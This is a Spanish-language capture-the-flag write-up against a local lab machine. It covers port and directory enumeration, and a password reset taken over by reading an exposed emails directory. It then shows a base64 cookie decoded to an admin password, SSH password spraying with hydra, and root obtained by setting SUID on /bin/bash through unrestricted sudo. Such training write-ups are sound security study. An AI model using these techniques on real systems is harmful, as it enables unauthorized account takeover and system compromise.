## FASE DE ENUMERACIÓN E INTRUSIÓN

Vamos a enumerar los puertos abiertos, servicios que corren por ellos y que versiones por si son vulnerables:

```bash
sudo nmap -sS -sCV --open -p- --min-rate 5000 172.17.0.2 -vvv -oN nmap
```

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 5f:38:90:92:99:ec:6a:f0:d1:d2:a4:ed:25:f3:ea:3a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBBwJF81HyonTSGMD4/rOK/Rv6AVdBckLqI5cFz8rfIAEQJz7t4vUbZi6pmNnnSrBJmJMH4MtWMKn/ZYZfMHrlI=
|   256 66:b4:90:b5:bf:13:7a:a4:b8:c1:56:0f:cb:5c:2d:7b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAkbZxqGD/Zew05H5sJdvySjpIffTfqV1U2x2JX2/Ziu
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: SecureAuth Pro - Portal de Acceso

```

Encontramos SSH versión no vulnerable y HTTP, vamos a la página web y echamos un ojo




Tenemos un user con una contraseña:

```
Usuario: diseo Contraseña: hacker

```

y otro usuario llamado victim del cual desconocemos la contraseña.

Vamos a hacer un fuzz antes de ponernos con nada:


```bash
feroxbuster --url "http://172.17.0.2" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,txt,html, --scan-dir-listings
```

Varias rutas interesantes:



bueno vamos a probar a logeanos como diseo y vemos que pasa:

```
diseo:hacker
```




Entramos en el panel, investigandoun poco vemos que podemos cambiar la contraseña:








aqui ponemos el usuario y nos mandan un codigo al correo para cambiarl la contraseña:





miramos los email simulados:





intercepté con burp la peticion etc y no fui capaz de cambiar el token etc y me di cuanta que puedo poner en vez del user 'diseo' el otro que conocemos `victim` pero se envia al correo la verificación al cual no tengo acceso, pero 
me acordé del fuzzing de una ruta `http://172.17.0.2/emails/` que en un principio estaba vacia y ahora:








tenemos en enlace para poder cambiar el password de victim, vamos al enlace:








bueno ahora nos logeamos con las nuevas credenciales y vemos hasta un panel de administrador...pero en realidad no hace nada, despues de dar muchas vueltas me fijo en el token que tenemos:





vemos concretamente:

```
Cookie: PHPSESSID=7qlqa62lran92ssjhon9l1lqv5; admin_token=UEBzc3cwcmQhVXNlcjRkbTFuMjAyNSEjLQ%3D%3D
```

quien tenga un poco de ojo se dará cuenta que %3D es lo mismo que = o lo que es lo mismo:

```
=UEBzc3cwcmQhVXNlcjRkbTFuMjAyNSEjLQ==
```

un base64!!!!

lo decodeamos:

```bash
echo "UEBzc3cwcmQhVXNlcjRkbTFuMjAyNSEjLQ==" | base64 -d; echo
```

```
P@ssw0rd!User4dm1n2025!#-
```





Con todo eso nos vamos a conectar por SSH pero al intentar victim me dice que nanai, me creo un diccionario para usar con hydra:

```
admin
admin_token
user
administrador
victim
diseo
administrator
```

y con hydra y el password intento ver que pasa:

```bash
hydra -L users.txt -p 'P@ssw0rd!User4dm1n2025!#-' ssh://172.17.0.2 -t 4 -V
```
```
[22][ssh] host: 172.17.0.2   login: admin   password: P@ssw0rd!User4dm1n2025!#-
```




Nos conectamos por SSH:

```bash
ssh admin@172.17.0.2
```
```
password--->P@ssw0rd!User4dm1n2025!#-
```



## FASE ESCALADA DE PRIVILEGIOS

Ejecuto `id` para ver en los grupos que estoy

```
uid=1001(admin) gid=1001(admin) groups=1001(admin),100(users)
```
y después `sudo -l` para ver si puedo ejecutar con privilegios sudo algo y:

```
[sudo] password for admin: 
Matching Defaults entries for admin on 87678857b499:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User admin may run the following commands on 87678857b499:
    (ALL) ALL

```

Sorpresa puedo utilizar cualquier cualquier cosa como su fuera root (ALL) ALL

pues:

```bash
sudo chmod u+s /bin/bash
```

```bash
/bin/bash -p
```

y ya somos root




